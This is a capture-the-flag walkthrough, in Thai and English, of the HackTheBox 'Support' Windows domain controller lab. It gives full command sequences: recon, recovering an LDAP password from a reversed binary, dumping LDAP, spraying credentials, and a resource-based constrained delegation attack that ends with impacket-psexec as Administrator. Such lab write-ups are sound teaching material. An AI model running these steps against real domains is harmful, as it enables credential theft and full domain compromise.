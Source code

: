 # Recon 

```bash
./scan.sh 10.10.11.174
[*] Running rustscan...
[*] Running nmap on ports: 53,88,135,139,389,445,464,593,636,9389,49667,49664,49676,49680,49704
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-19 09:22 +07
Nmap scan report for 10.10.11.174
Host is up (0.062s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-19 02:01:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49680/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-19T02:02:28
|_  start_date: N/A
|_clock-skew: -20m48s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.78 seconds

```


## Reverse UserInfo.exe using dnSpy 

![[Challenge/HTB Challenge/Support/IMG/001.png]]

FOUND 
```
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
XOR_KEY_1=armando 
XOR_KEY_2=223 (ฐาน 10)
```

![[Challenge/HTB Challenge/Support/IMG/003.png]]


## Verify Credential 

```bash
crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

![[Challenge/HTB Challenge/Support/IMG/004.png]]

จากตัวอย่างจะเห็นว่าสามารถใช้งาน รหัสที่ได้มาได้ และมี Username เป็น Support 

```bash
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```

เราจะ SETUP โดยตั้งค่าเริ่มต้นเป็นผู้ใช้ support@support.htb โดยมีเป้าหมายไปที่ Domain Admin จะพบความเชื่อมโยงดังต่อไปนี้ 

![[Challenge/HTB Challenge/Support/IMG/005.png]]

## Ldap Search 

เราจะทำการค้นหาข้อมูลใน LDAP 

```
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

![[Challenge/HTB Challenge/Support/IMG/006.png]]

เราจะเห็นว่ามี Info: มีข้อมูลที่เหมือนจะเป็นรหัสผ่าน 

==Cred FOUND:== Ironside47pleasure40Watchful

จากนั้นลองทดสอบ Dump ข้อมูลทั้งหมดจาก Ldap 

```bash
ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap

grep Ironside *
```

## Shell as support 

ทดสอบโจมตีด้วย nxc เพื่อดูว่าวสามารถโจมตีไปที่โปรโตคอลอะไรได้บ้าง 

```bash
for service in wmi winrm smb mssql rdp ssh ldap ftp vnc; do netexec $service support.htb -u 'support' -p 'Ironside47pleasure40Watchful'; done
```

![[Challenge/HTB Challenge/Support/IMG/007.png]]

จากตัวอย่างจะเห็นว่าสามารถโจมตีด้วย WinRm ได้ ซึ่งสามารถใช้ Evil-WInRM ได้ 

## Pass The Ticket 

```bash
impacket-addcomputer -method SAMR \
  -computer-name 'ATTACKERSYSTEM$' \
  -computer-pass 'Summer2018!' \
  -dc-host dc.support.htb \
  -dc-ip 10.10.11.174 \
  -domain-netbios support.htb \
  'support.htb/support:Ironside47pleasure40Watchful'

impacket-GetADUsers support.htb/support:Ironside47pleasure40Watchful -all | grep -i '$'

impacket-rbcd -delegate-from ATTACKERSYSTEM$ \
  -delegate-to DC$ \
  -action write \
  'support.htb/support:Ironside47pleasure40Watchful'

impacket-GetNPUsers support.htb/support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -request


## ข้อควรระวังการณีต้องการโจมตีแบบนี้จะต้องตรวจสอบเรื่องเวลาให้ตรงกันด้วย โดยใช้ ntpdate 
sudo ntpdate -u 10.10.11.174

impacket-getST -dc-ip 10.10.11.174 \
  -spn cifs/DC.support.htb \
  -impersonate Administrator \
  support.htb/ATTACKERSYSTEM$:Summer2018!


KRB5CCNAME=/home/administrator/Desktop/Administrator@cifs_DC.support.htb@SUPPORT.HTB.ccache impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass 

```


# PWNED